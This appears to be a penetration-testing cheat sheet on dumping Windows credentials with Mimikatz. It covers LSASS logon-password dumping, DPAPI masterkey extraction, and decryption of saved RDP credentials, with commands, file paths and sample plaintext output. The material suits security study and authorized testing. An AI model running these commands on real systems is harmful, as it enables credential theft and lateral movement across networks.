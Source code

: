 ## Mimikatz

The now very famous tool mimikatz can be among other things used to dump credentials, that is hashes and/or. The latest release of mimikatz can be found as a precompiled binary for Windows on gentilwiki's [Github page](https://github.com/gentilkiwi/mimikatz/releases).

**Important note about privilege**
Running Mimikatz nearly always requires Administrative privileges, preferably NT SYSTEM to run correctly. The privilege module is able to elevate a user from Administrator to SYSTEM.
https://github.com/gentilkiwi/mimikatz/wiki/module-~-privilege
```
mimikatz # privilege::debug
Privilege '20' OK
```


### Dumping creds from lsass

```
mimikatz # sekurlsa::logonpasswords
```


### DPAPI method
In certain scenarios like RDP jumpstations a user might find it useful to save RDP credentials locally in Windows to prevent having to retype passwords. A common scenario is a regular user with a separate admin privileged account that is used for RDP-ing into other boxes. The passwords are then stored in the Windows credential manager.

Credentials for the manager are usually stored in files in either of the following two directories. Use `dir /a` to check their contents.
`C:\Users\username\AppData\Roaming\Microsoft\Credentials`
`C:\Users\username\AppData\Local\Microsoft\Credentials`

If both are empty, then credentials are probably not saved in the credential manager.. The files are usually stored as 32 character all caps alphanumerical strings, so something like: `?`0DCF46D87F2DCE439DC47AA5F9267462`.

Once you have the file name and path for the credential file, open up mimikatz and do.

`mimikatz dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\0DCF46D87F2DCE439DC47AA5F9267462`

This will dump the credential blob which contains what we want to decrypt and the GUID for the masterkey which is required for decryption.

As SYSTEM, we can dump all masterkeys, the ! is very important here.
`!sekurlsa::dpapi`

You should get a 129 character string as masterkey associated with the GUID you found in the previous step.
```
GUID: {6515c6ef-60cd-4563-a3d5-3d70a6bc699}
masterkey: 76081ac6e809573b4dfa1a7a8eac3ae0106aa3f4d283fc3d6cf114a6285b582d4df53dc0e30b64c318e473bce49adabb73ad8cccd8bf4d7d10f44f4d4e48cf04
```

Proceed by using the masterkey to decrypt the credentials.
`dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\0DCF46D87F2DCE439DC47AA5F9267462/masterkey:76081ac6e809573b4dfa1a7a8eac3ae0106aa3f4d283fc3d6cf114a6285b582d4df53dc0e30b64c318e473bce49adabb73ad8cccd8bf4d7d10f44f4d4e48cf04`

The username and plaintext password should be printed.
```
UserName       : LAN\username_adm
CredentialBlob : Sup3rAw3s0m3Passw0rd!
```

Use `vault::list` to figure out what boxes the credentials belong to. Often they are to specific servers.

**Useful links**
https://github.com/gentilkiwi/mimikatz/wiki/module-%7E-dpapi
https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials
https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/
